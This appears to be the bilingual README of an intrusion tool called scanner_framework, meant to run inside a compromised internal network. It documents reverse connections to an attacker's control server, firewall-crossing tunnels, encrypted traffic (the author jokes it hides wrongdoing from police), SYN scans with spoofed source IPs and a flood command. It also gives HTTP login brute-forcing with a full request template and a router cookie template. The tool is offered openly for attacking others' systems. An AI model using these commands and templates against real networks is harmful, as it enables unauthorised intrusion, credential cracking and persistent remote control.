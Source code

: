﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.


网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to launch it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>

###在线破解  [About Online Crack]
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	
	什么是表达式?
	
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Success
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成
	
	
	表达式函数:
	
	base64(%string%) -- 采用base64 编码
	time() -- 获取系统时间
	len(%string%) -- 统计字符串长度
	rnd([%low%-%up%]) -- 在%low% 到%up% 之间生成随机数
	
	Example :
	
	破解水星的数据包 (其它都差不多,关键在Cookie):
	
	Cookie: a2404_pages=10; a2404_times=5; Authorization=Basic%20base64(admin:%password%)\r\n
	
	接下来会把%password% 先填充好之后再编码base64
	
	WARNING! 由于水平问题还做不出递归,请见谅 ..  
	


####端口转发原理:
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


###Other
===
#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..
